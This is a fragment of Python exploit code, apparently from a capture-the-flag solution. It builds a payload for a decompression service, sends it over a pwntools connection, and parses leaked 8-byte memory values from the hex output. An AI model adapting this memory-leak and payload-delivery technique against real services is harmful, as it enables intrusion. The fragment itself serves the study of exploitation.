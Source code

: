 ```python
        towrite = make_length(numb)
        self.__payload += b'ff' + patternlen + towrite
        self.__numbytes += numb
        
    def len(self):
        return self.__numbytes
    
    def __call__(self, io):
        io.recvuntil(b'What')
        io.sendline(b'2')
        io.recvuntil(b'Send me the hex')
        io.sendline(self.chain())
        io.recvuntil(b'decompresses to:\n')
        
        leaks = []
        nread = 0
        for offset in self.__leaks:
            io.recvn(offset*2 - nread*2) # hex is 2 digits for 1 byte
            leaks.append(reversed_hex(io.recvn(8*2)))
            nread += offset + 8
            
        return leaks
```